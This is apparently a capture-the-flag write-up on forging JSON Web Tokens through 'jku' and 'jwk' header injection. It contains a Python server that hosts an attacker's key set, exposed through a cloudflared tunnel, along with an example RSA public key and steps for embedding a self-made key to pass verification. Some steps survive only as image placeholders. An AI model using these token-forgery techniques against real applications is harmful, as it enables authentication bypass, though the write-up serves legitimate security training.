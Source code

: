 Based on the name of the challenge, we could try either a `jku` or `jwk` header injection. I first tried `jku`, but had no luck:

```
python3 sever.py; cloudflared tunnel --url http://localhost:8000
```
```py
import http.server
import socketserver
import json

PORT = 8000 

jwks = {
    "keys": [
        ...
    ]
}

class JWKSHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        if self.path == "/.well-known/jwks.json":
            self.send_response(200)
            self.send_header("Content-Type", "application/json")
            self.end_headers()
            self.wfile.write(json.dumps(jwks).encode())
        else:
            self.send_response(404)
            self.end_headers()

with socketserver.TCPServer(("0.0.0.0", PORT), JWKSHandler) as httpd:
    print(f"Serving JWKS on port {PORT}...")
    httpd.serve_forever()
```
![alt text](image/image.png)

Since jku didn’t work, I decided to try `jwk` instead.

First, create a new rsa key and get its public key

![alt text](image/image-1.png)
![alt text](image/image-2.png)

Example RSA key:
```
{
    "kty": "RSA",
    "e": "AQAB",
    "kid": "82c80968-869b-47de-b250-f9944a6975e9",
    "n": "ykK3hRo-0G7PzaARzHgyYPeX6inu0FFma6Pr8aJc1EfaIyQdYkzmFvAgMof3HgPxIzAWPEhs4awAEcfwir9YmE0aG7m3gE4lN3QTt6Xn9_mMMS4rx8i__1TZbcvELvnXNXDXz__j6MGdOw4kcgjHU9kHboXvtrY5IgIo3eXsv2yYv_3EEAlNHLSHKsbqwl3R30XNP8oIbCM7j4TWaEujW13JikO0WEaSFMzJLSWqnFgAgjrLNvh-iuyih3fPzFm3_zRTz1fEIG-5RvPurKt2HHhDHJYUL3FY_Qe2EWK1gqoAcb0k_ypkRLhJ-Jmz_bGbjxgeWi4WzoVd50xQLJsD_Q"
}
```
Modify the header manually or use an embedded attack to retrieve the flag

![alt text](image/image-3.png)